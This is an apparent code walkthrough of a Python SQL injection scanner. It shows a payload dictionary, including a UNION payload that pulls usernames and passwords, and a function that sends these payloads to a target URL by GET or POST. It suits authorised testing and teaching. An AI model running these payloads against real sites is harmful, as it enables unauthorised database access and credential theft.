    - `-u`: Mandatory URL input.
    - `-p`: Optional parameter name.
    - `-m`: HTTP method (`GET` or `POST`), defaulting to `GET`.
    - `--proxy`: Optional proxy URL for traffic inspection.
  - `if not args.u.startswith(("http://", "https://"))`: Ensures the URL is valid.
- **Return Value**: A tuple containing the URL, parameter, HTTP method, and proxy.

---

### **get_payloads() Function**
```python
def get_payloads():
    return {
        "error_based": [
            "' OR 1=1 --",
            "' AND 1=CONVERT(int, (SELECT @@version)) --"
        ],
        "union_based": [
            "' UNION SELECT NULL, NULL --",
            "' UNION SELECT username, password FROM users --"
        ],
        "boolean_based": [
            "' AND 1=1 --",
            "' AND 1=2 --"
        ],
        "time_based": [
            "' OR IF(1=1, SLEEP(5), 0) --",
            "' AND IF(1=1, SLEEP(5), 0) --"
        ]
    }
```
- **Purpose**: Defines SQL injection payloads grouped by attack type.
- **Highlighted Lines**:
  - Each key corresponds to an attack type (`error_based`, `union_based`, etc.).
  - Payloads under each key represent specific SQL injection strings.
- **Return Value**: A dictionary of payloads categorized by attack type.

---

### **test_injection() Function**
```python
def test_injection(url, param, method, payloads, proxies):
    vulnerable_types = []

    for attack_type, attack_payloads in payloads.items():
        print(f"\n[+] Testing {attack_type} injections...")
        for payload in attack_payloads:
            try:
                if method == "GET":
                    full_payload = f"{url}?{param}={payload}"
                    response = requests.get(full_payload, timeout=10, proxies=proxies)
                elif method == "POST":
                    data = {param: payload}
                    response = requests.post(url, data=data, timeout=10, proxies=proxies)
                    full_payload = f"POST Data: {data}"
                else:
                    print(f"[-] Unsupported HTTP method: {method}")
                    return []

                if analyze_response(response, attack_type, payload, full_payload):
                    vulnerable_types.append(attack_type)
                    break
            except requests.RequestException as e:
                print(f"[-] Request failed: {e}")
```